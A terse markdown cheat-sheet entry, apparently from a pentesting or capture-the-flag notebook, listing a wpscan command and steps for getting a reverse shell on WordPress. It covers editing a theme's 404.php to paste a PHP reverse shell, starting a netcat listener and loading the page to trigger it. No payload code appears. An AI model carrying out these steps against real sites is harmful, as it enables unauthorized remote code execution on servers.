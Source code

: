 ### wpscan 

#### wpscan --url https://[target_ip]

#### ReverseShell via thames

1)Log_in
2)Side menu
3)Appearance
  - Editor
    - 404.php
      - paste php reverse shell
4) run nc -lnvp [ip]

5)Open /wp-content/themes/twentyfiftee(change for your thames name)/404.php



